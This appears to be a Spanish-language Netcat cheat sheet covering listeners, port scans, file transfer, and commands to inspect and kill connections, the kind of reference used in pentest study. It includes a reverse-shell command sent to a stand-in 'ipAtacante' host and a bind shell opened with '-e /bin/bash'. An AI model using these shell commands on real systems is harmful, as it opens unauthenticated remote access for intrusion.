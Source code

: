 

---

Netcat (nc) es una herramienta de red ligera y versátil que permite leer y escribir datos a través de conexiones TCP o UDP. Se usa para depuración, transferencia de archivos, creación de listeners (escuchas), tunneling simple, banner grabbing y escaneo de puertos. Es muy potente (y también puede usarse con fines maliciosos), por lo que debe emplearse con responsabilidad y permisos adecuados.

- Comando mas usado :

```bash
nc -nlvp 4444
```


- Enviar una reverse shell a tu IP atacante para ejecutar la inyección de código, como en el siguiente ejemplo:

```bash
nc -e /bin/bash ipAtacante 4444
```


---

Otros Comandos/flags más usados (con ejemplos):

- `nc <host> <port>` — Conectar a un servicio TCP.  
    Ejemplo: `nc ejemplo.com 80`
    
- `nc -l -p <port>` — Abrir un puerto en modo escucha (server).  
    Ejemplo: `nc -l -p 1234`
    
- `nc -l -p <port> -k` — Escuchar y aceptar múltiples conexiones (mantener abierto).  
    Ejemplo: `nc -l -p 1234 -k`
    
- `nc -u <host> <port>` — Usar UDP en lugar de TCP.  
    Ejemplo: `nc -u 192.168.1.5 53`
    
- `nc -v` / `-vv` — Modo verbose (más información).  
    Ejemplo: `nc -v ejemplo.com 22`
    
- `nc -n` — No resolver DNS (usar direcciones numéricas).  
    Ejemplo: `nc -n 10.0.0.1 22`
    
- `nc -z -v <host> <ports>` — Escaneo rápido de puertos (modo “zero-I/O”).  
    Ejemplo: `nc -z -v 10.0.0.1 20-80`
    
- `nc -w <seconds>` — Timeout para conexiones o lectura.  
    Ejemplo: `nc -w 3 ejemplo.com 80`
    
- Transferir archivos (sender/receiver):  
    Receptor: `nc -l -p 1234 > archivo_recibido`  
    Emisor: `nc <ip_receptor> 1234 < archivo_a_enviar`
    
- Ejecutar un shell remoto (opción peligrosa y a menudo deshabilitada): `nc -l -p 4444 -e /bin/bash` — **Advertencia:** esto abre un shell remoto sin autenticación; puede comprometer el equipo y muchas distros deshabilitan `-e`.

---

### Ver conexiones (TCP/UDP) y procesos asociados

- Lista conexiones TCP y el PID/Programa:  
    `sudo ss -tnp`  
    (ó `sudo netstat -tnp` si lo tienes)
    
- Lista conexiones UDP:  
    `sudo ss -unp`
    
- Ver quién escucha en un puerto específico (ej. 1234):  
    `sudo ss -tulpn | grep :1234`
    
- Ver procesos que usan puertos (más legible):  
    `sudo lsof -iTCP -P -n | grep LISTEN`  
    o para puerto concreto: `sudo lsof -i :1234`
    
- Buscar procesos `nc` directamente:  
    `ps aux | grep '[n]c'`
    

### Cerrar / eliminar conexiones (formas seguras)

- Matar el proceso por PID (más controlado):
    
    1. Buscar PID con `sudo ss -tnp` o `sudo lsof -i :1234`.
        
    2. Matar: `sudo kill <PID>`
        
    3. Si no responde: `sudo kill -9 <PID>` (usar con precaución).
        
- Matar todos los procesos `nc` (si estás seguro):  
    `sudo pkill -f '\bnc\b'`  
    (esto cierra todos los `nc` en ejecución)
    
- Liberar un puerto directamente:  
    `sudo fuser -k 1234/tcp`  
    (mata procesos que usan el puerto 1234)
    

### Nota de seguridad

- Preferible identificar el PID y usar `kill` antes que `pkill -f` para evitar matar procesos no deseados.
    
- Ejecuta estos comandos con permisos adecuados (`sudo`) y sólo en máquinas donde tengas autorización.
